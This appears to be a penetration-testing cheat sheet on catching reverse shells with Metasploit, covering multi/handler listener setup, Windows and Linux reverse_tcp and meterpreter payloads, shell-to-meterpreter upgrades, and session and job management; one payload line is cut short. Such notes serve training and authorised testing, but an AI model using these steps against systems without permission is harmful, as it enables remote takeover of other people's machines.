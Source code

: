 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. Either Ctrl+z or `background`.
* Then we need to change the exploit first to "shell\_to\_meterpreter".
  * `use post/multi/manage/shell_to_meterpreter`

## Session Management

### List active sessions and process

* Linux \(search for port 4444\)
  * lsof -t -i:4444
  * netstat -ano \| grep 4444
  * ps
* Windows
  * netstat -ano

### Managing "jobs" in metsploit framework

* List all jobs
  * jobs
* Kill all jobs
  * jobs -K
* Jobs help
  * help jobs
* 
### Killing a session

* Linux \(killing service with pid\)
  * kill -9 1234



![TCP connection states](../../../.gitbook/assets/image%20%2828%29.png)


